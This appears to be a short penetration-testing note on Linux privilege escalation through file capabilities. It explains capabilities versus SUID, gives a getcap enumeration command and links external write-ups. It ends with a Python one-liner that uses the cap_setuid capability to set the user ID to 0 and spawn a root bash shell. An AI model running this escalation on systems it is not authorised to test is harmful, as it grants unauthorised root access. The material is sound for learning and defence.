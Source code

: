 Capabilities are very similar to SUID in concept. When we talk about traditional linux, we talk about running permission checks from a privileged process and an unprivileged process. So the privileged process is a user who is 0(root/superuser) and unprivileged is anyone other than 0. So privileged processes bypass all kernel permission checks

So, when we take capabilities, we take the privileges that are usually associated with superuser into distinct units. And those units are called capabilities. So, they can be independently enabled and disabled and they are a per thread attribute. 

Capabilities are more secure than SUIDs and thats why there's a transition to using them in modern times.

To hunt for capabilities, we can use this command:

```shell
getcap -r / 2>/dev/null
```

if you see a file capability with setuid+ep, here ep basically means permit everything.

Linux Privilege Escalation using Capabilities - [https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

SUID vs Capabilities - [https://mn3m.info/posts/suid-vs-capabilities/](https://mn3m.info/posts/suid-vs-capabilities/)
Linux Capabilities Privilege Escalation - [https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)

If you have python as one of the capabilities, then you can use that to exploit the machine. Like so:

```shell
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

